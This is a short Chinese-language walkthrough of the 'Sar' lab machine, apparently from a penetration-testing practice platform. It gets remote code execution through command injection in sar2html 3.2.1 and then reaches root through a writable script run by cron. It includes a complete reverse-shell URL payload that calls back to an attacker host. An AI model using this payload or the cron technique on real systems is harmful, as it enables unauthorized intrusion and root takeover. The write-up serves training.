# Sar

打Web


掃了一下路徑 感覺能用的東西蠻少的


robots.txt裡面有一行奇怪的東西 把它丟到路徑下可以進到一個奇怪的CMS sar2html 3.2.1




隨便查一下可以查到一個exploit 裡面內容蠻少的 感覺像是Command Injection




輸入以後可以看到多出來幾個東西 點開第一個可以發現輸入id有效 把id改成reverse shell就可以直接RCE了

```
http://192.168.162.35/sar2HTML/index.php?plot=;bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.49.162%2F443%200%3E%261%27
```



#### 提權

發現Cron會執行`/var/www/html/finally.sh`


到目錄下看 可以看到`finally.sh`會執行`write.sh` 而且我們有對`write.sh`寫入的權限


丟一個reverse shell進去 大概等一段時間就可以拿到root的shell了


#### Proof

local.txt
`67330e8b480c61fe5613119db5c9a7d8`


proof.txt
`d86a65d198730217034a6d8202453ba4`
